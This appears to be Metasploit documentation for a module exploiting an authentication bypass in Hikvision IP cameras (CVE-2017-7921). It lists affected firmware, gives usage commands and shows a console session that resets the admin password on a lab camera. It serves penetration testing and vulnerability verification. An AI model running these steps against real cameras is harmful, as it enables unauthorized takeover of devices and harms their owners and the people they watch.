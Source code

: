 ## Vulnerable Application

Many Hikvision IP cameras contain improper authentication logic that allow unauthenticated impersonation of any
configured user account. This allows an attacker to bypass all security on the camera and
gain full admin access, allowing them to thereby completely control the camera and modify
any setting or retrieve sensitive information.

This module allows the attacker to perform an unauthenticated password change on
any vulnerable Hikvision IP Camera by utilizing the improper authentication logic to
send a request  to the server which contains an `auth` parameter in the query string
containing a Base64 encoded version of the authorization in `username:password` format.
Vulnerable cameras will ignore the `username` parameter and will instead use the username
part of this string as the user to log in as. This can then be used to gain full 
administrative access to the affected device.

The vulnerability has been present in Hikvision products since 2014.
In addition to Hikvision-branded devices, it affects many white-labeled
camera products sold under a variety of brand names.

Below is a list of vulnerable firmware, but many other white-labelled versions might be vulnerable.

* DS-2CD2xx2F-I Series: V5.2.0 build 140721 to V5.4.0 build 160530
* DS-2CD2xx0F-I Series: V5.2.0 build 140721 to V5.4.0 Build 160401
* DS-2CD2xx2FWD Series: V5.3.1 build 150410 to V5.4.4 Build 161125
* DS-2CD4x2xFWD Series: V5.2.0 build 140721 to V5.4.0 Build 160414
* DS-2CD4xx5 Series: V5.2.0 build 140721 to V5.4.0 Build 160421
* DS-2DFx Series: V5.2.0 build 140805 to V5.4.5 Build 160928
* DS-2CD63xx Series: V5.0.9 build 140305 to V5.3.5 Build 160106

Installing a vulnerable test bed requires a Hikvision camera with the vulnerable firmware loaded.

This module has been tested against a Hikvision camera with the specifications listed below:

* MANUFACTURER: Hikvision.China
* MODEL: DS-2CD2142FWD-IS
* FIRMWARE VERSION: V5.4.1
* FIRMWARE RELEASE: build 160525
* BOOT VERSION: V1.3.4
* BOOT RELEASE: 100316

## Verification Steps

1. `use auxiliary/admin/http/hikvision_unauth_pwd_reset_cve_2017_7921`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set USERNAME <name of user>`
1. `set PASSWORD <new password>`
1. `check`
1. `set ID <id of user whose password you want to reset from "check" output>`
1. `run`
1. You should get a message that the password for the user has been successfully changed.

## Options
### STORE_CRED
This option allows you to store the user and password credentials in the Metasploit database for further use.

## Scenarios

### Hikvision DS-2CD2142FWD-IS Firmware Version V5.4.1 build 160525

```
msf > use auxiliary/admin/http/hikvision_unauth_pwd_reset_cve_2017_7921
msf auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > set RHOSTS 192.168.100.180
RHOSTS => 192.168.100.180
msf auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > set USERNAME admin
USERNAME => admin
msf auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > set PASSWORD Pa$$W0rd
PASSWORD => Pa$$W0rd
msf auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > set ID 1
ID => 1
msf auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > set STORE_CRED true
STORE_CRED => true
msf auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > options

Module options (auxiliary/admin/http/hikvision_unauth_pwd_reset_cve_2017_7921):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   ID          1                yes       ID (default 1 for admin)
   PASSWORD    Pa$$W0rd         yes       New Password (at least 2 UPPERCASE, 2 lowercase and 2 special characters
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      192.168.100.180  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploi
                                          t
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   STORE_CRED  true             no        Store credential into the database.
   USERNAME    admin            yes       Username for password change
   VHOST                        no        HTTP server virtual host

msf auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > check

[*] Following users are available for password reset...
[*] USERNAME:admin | ID:1 | ROLE:Administrator
[*] USERNAME:admln | ID:2 | ROLE:Operator
[+] 192.168.100.180:80 - The target is vulnerable.
msf auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > run
[*] Running module against 192.168.100.180

[*] Following users are available for password reset...
[*] USERNAME:admin | ID:1 | ROLE:Administrator
[*] USERNAME:admln | ID:2 | ROLE:Operator
[*] Starting the password reset for admin...
[+] Password reset for admin was successfully completed!
[*] Please log in with your new password: Pa$$W0rd
[*] Credentials for admin were added to the database...
[*] Auxiliary module execution completed
msf auxiliary(admin/http/hikvision_unauth_pwd_reset) > creds -O 192.168.100.180
Credentials
===========

host             origin           service        public  private   realm  private_type  JtR Format
----             ------           -------        ------  -------   -----  ------------  ----------
192.168.100.180  192.168.100.180  80/tcp (http)  admin   Pa$$W0rd         Password

msf auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) 
```
